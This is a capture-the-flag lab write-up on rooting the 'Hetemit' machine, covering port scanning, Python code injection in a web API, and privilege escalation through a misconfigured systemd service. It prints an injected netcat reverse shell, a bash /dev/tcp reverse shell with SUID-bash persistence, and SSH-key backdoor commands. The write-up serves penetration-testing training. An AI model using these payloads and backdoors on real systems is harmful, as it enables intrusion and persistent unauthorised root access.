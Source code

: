 # Hetemit

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:27 +08
Warning: 192.168.201.117 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.201.117
Host is up (0.18s latency).
Not shown: 65479 filtered tcp ports (no-response), 49 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
18000/tcp open  biimenu
50000/tcp open  ibm-db2
```

Lots of ports. FTP allows for anonymous access, but just hangs.&#x20;

### Web Enumeration --> Python Code Injection

Port 80 had the default Apache HTTP Server:

<figure><img src="../../../.gitbook/assets/image (68) (1) (3).png" alt=""><figcaption></figcaption></figure>

Ran a directory scan on this and didn't find much.

Port 50000 had a simple API running:

<figure><img src="../../../.gitbook/assets/image (576) (2).png" alt=""><figcaption></figcaption></figure>

If we use the `/generate` option, it just returns us this:

```
$ curl http://192.168.201.117:50000/generate
{'email@domain'}
```

I tried sending POST requests to this:

<figure><img src="../../../.gitbook/assets/image (86) (3).png" alt=""><figcaption></figcaption></figure>

Not too sure what to do with that token. However, we notice that this is running a Python server. The `/verify` endpoint also accepts POST requests, but it always seems to fail:

<figure><img src="../../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

Since this was running a Python based server, we can try some Python code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

This looks like it works. Another test confirms that it works:

<figure><img src="../../../.gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

So this script has the `os` module imported, meaning we can get an easy reverse shell:

```python
os.system("nc -e /bin/bash 192.168.45.191 21")
```

<figure><img src="../../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Misconfigured Services + Reboot

The user is able to reboot the system:

```
[cmeeks@hetemit ~]$ sudo -l
Matching Defaults entries for cmeeks on hetemit:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

This indicates to me that there is some kind of startup script to exploit. I ran a `linpeas.sh` scan on the machine to enumerate, and it found quite a few misconfigured services:

<figure><img src="../../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

We can overwrite this to execute a script that gives us a reverse shell. I included the SUID bit in my script just in case the shell doesn't work:

```bash
#!/bin/bash

chmod u+s /bin/bash
bash -i >& /dev/tcp/192.168.45.191/18000 0>&1
```

I also included my SSH key within the `authorized_keys` folder for backdoor access.

```bash
cd ~
mkdir .ssh
echo 'KEY' >> .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
chmod 700 .ssh
```

Afterwards, using `vi` we can edit the service file:

```
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/shell.sh
TimeoutSec=30
RestartSec=15s
User=root
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Then, we can run `sudo /sbin/reboot` to restart the machine. Then we just have to wait for a bit before we can SSH back in. The reverse shell didn't work for some reason, but the SUID binary command did:

<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

Rooted!
